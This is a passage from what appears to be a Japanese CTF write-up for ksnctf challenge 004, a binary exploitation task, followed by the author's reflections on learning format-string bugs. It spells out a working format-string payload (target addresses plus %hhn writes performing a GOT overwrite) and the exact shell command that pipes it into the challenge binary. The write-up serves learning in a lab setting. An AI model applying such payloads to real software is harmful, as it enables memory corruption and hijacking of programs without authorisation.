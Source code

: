 　見やすさのために分けると、以下のように分けられる。

- `\xf4\x99\x04\x08`
- `\xf5\x99\x04\x08`
- `\xf6\x99\x04\x08`
- `\xf7\x99\x04\x08`
- `%129c%6$hhn`
- `%245c%7$hhn`
- `%126c%8$hhn`
- `%4c%9$hhn`

### 謎を解く

　後は、実際に入力してみればいい。コマンドラインから入力する形式で示す。

```sh
$ echo -en '\xf4\x99\x04\x08\xf5\x99\x04\x08\xf6\x99\x04\x08\xf7\x99\x04\x08%129c%6$hhn%245c%7$hhn%126c%8$hhn%4c%9$hhn' | ./q4
```

　無事に Flag を獲得した。いやはや長かった。　

## 所感
　pwn をちゃんと解いたのは今回が初めてである。

　同僚からの話で雰囲気・用語・コマンドについていくつか聞いたことがあったが、いざ解こうと思った時には分からないことばかりであった。

　結局、セキュリティ・脆弱性についていろいろ調べることになった。

　おかげで少しは詳しくなったし、 pwn の面白さも分かったと言える。

　本当は、 ksnctf の write-up を書くつもりはなかった。だが、この 004 番に取り組む中で、 write-up を書き残したくなったのだ。

- 分かったことを言語化すること
- どのように解いたかをいつでも振り替えられる状態にしておくこと

　この2点を満たしたいがために、 write-up を書くと決めた。

　誰が見ても分かる write-up というよりは、自分で見たら思いだせる write-up という傾向の方が強くなっているかもしれない。

　ただ、見返してみると自分でも分かりづらい記事に感じる。これは記事の構成が悪いのだとは思う。気が向いたら直すかもしれない。

　およそ2週間ほどこの問題と戦ったが、とても勉強になった。

　初めは逆アセンブルしても `FSB` に気づけなかった。それで脆弱性の種類を調べる必要に迫られた。また、セキュリティの状態によって使える攻撃手法や書き込める領域が異なるようで、脆弱性だけでなくセキュリティについての知識も十分に求められていることに気づいた。

　しばらくして、久しぶりに逆アセンブルした結果を見ると、いとも簡単に `FSB` に気づけた。セキュリティチェックもすると、`GOT overwrite` の可能性も浮上した。

　そこからは `%hhn` の使い方の部分で案外苦労した。攻撃計画を立案出来ても、実際の攻撃コードを組み立てるのも難しさがあった。

　フラグを取るまで長かったが、全てが一本の線で綺麗にまとまっている気がしてとても清々しい気分だ。

　`ksnctf 004` を解けたことで、私のCTFはようやく始まったのだと言える。

　ありがとう `CTF`

　ありがとう `kasnctf`


　
　